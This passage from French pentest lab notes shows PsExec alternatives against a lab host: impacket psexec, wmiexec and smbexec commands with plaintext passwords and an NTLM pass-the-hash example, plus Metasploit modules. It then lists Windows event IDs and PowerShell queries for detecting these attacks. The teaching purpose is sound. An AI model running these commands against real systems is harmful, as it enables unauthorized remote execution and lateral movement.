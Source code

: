 
## 🔧 6. Techniques alternatives PsExec

### PsExec manuel (impacket)
```bash
# Installation impacket
pip install impacket

# Utilisation psexec.py
psexec.py Administrator:qwertyuiop@demo.ine.local
psexec.py domain/Administrator:password@demo.ine.local

# Avec hash NTLM
psexec.py Administrator@demo.ine.local -hashes aad3b435b51404eeaad3b435b51404ee:ntlm_hash
```

### WMIExec (alternative PsExec)
```bash
# Avec impacket wmiexec
wmiexec.py Administrator:qwertyuiop@demo.ine.local

# Module Metasploit WMI
use exploit/windows/local/wmi
use auxiliary/scanner/wmi/wmi_login
```

### SMBExec (plus discret)
```bash
# Alternative plus furtive
smbexec.py Administrator:qwertyuiop@demo.ine.local

# Module Metasploit
use exploit/windows/smb/smb_delivery
```

---

## 🛡️ 7. Détection et contre-mesures

### Événements Windows générés par PsExec
```powershell
# Logs d'événements à surveiller
# Event ID 7034: Service terminated unexpectedly
# Event ID 7035: Service control manager
# Event ID 4624: Account logon (Type 3 - Network)
# Event ID 4672: Special privileges assigned
# Event ID 5140: Network share accessed

Get-EventLog -LogName System | Where-Object {$_.EventID -eq 7034}
Get-EventLog -LogName Security | Where-Object {$_.EventID -eq 4624}
```
